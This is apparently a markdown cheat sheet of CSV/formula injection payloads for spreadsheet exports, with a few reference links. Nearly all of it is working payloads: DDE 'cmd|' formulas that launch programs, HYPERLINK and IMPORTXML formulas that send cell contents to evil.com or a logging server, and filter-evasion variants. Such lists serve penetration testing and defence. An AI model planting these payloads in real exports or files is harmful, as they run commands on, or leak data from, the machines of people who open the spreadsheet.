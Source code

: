 # CSV Injection

### Payloads

```
=1+1+cmd|' /C calc'!A0
-2+3+cmd|' /C calc'!A0
+2+3+cmd|' /C calc'!A0
@2+3+cmd|' /C calc'!A0

# no warning to user
=HYPERLINK("http://evil.com?x="&A3&","&B3&"[CR]","Error fetching info: Click me to resolve.")

# untested see "excel-export-attacks.pdf" for examples of DDE
=DDE("cmd";"/C calc";"__DdeLink_60_870516294")
=DDE("cmd";"/C calc";"!A0")

%0A-2+3+cmd|' /C calc'!D2      # %0A is NewLine which excel will
                               # ref: https://bugzilla.mozilla.org/show_bug.cgi?id=1259881
                               #      https://bugzilla.mozilla.org/show_bug.cgi?id=1263581

# XML Import: http://georgemauer.net/2017/10/07/csv-injection.html
=IMPORTXML(CONCAT(""http://some-server-with-log.evil?v="", CONCATENATE(A2:E2)), ""//a"")"
```

### Filter Evasion:

```
# Ref slide 21: https://www.slideshare.net/exploresecurity/camsec-sept-2016-tricks-to-improve-web-app-excel-export-attacks
# Slide deck is available in downloads: excel-export-attacks.pdf
=cmd| ...
-cmd| ...
"=cmd| ..."
=(cmd| ...)
=0-cmd|...
+cmd|...
""=cmd|
@sum(cmd|...)
```

### References

* [DDE Function](https://wiki.openoffice.org/wiki/Documentation/How_Tos/Calc:_DDE_function)
* [Weaponizing](https://sensepost.com/blog/2016/powershell-c-sharp-and-dde-the-power-within/)
* [Excel Export Attacks](../downloads/excel-export-attacks.pdf)
